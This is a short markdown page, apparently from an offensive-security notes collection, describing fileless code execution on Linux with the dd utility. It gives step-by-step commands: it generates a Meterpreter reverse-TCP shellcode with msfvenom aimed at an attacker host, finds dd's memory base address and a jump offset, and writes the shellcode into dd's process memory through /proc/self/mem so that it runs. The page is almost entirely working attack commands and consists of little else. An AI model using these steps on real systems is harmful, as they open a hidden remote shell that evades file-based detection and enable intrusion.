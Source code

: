 # dd

## 01 - Fileless Code Execution

Generate a shellcode payload.

```
userware@hackware-os:~$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<attacker_IP> lport=<attacker_PORT> -f c | grep -Eo "\\\\x[[:xdigit:]]+" | tr -d "\n"
```

Retrieve the first addresses of `dd` program.

```
$ setarch x86_64 -R dd if=/proc/self/maps 2>/dev/null | grep /bin/dd
555555554000-555555556000 r--p 00000000 08:01 786821                     /usr/bin/dd
..[omitted]..
```

Dump the program to retrieve the assembly instructions. We'll take the `jmp` operator with the address `6753`.

```
$ objdump -Mintel -d $(which dd) | grep fclose                                  
0000000000002170 <fclose@plt>:
    671a:       e8 51 ba ff ff          call   2170 <fclose@plt>
    6753:       e9 18 ba ff ff          jmp    2170 <fclose@plt>
```

Then we execute in the target with the shellcode through memory.

```
$ echo -en "<shellcode>" | setarch x86_64 -R dd of=/proc/self/mem bs=1 seek=$(( 555555554000 + 0x6753 )) conv=notrunc 10<&0 11<&1
```

---
## References

### Sektor7

- [Sektor7: Pure In-Memory (Shell)Code Injection In Linux Userland](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md)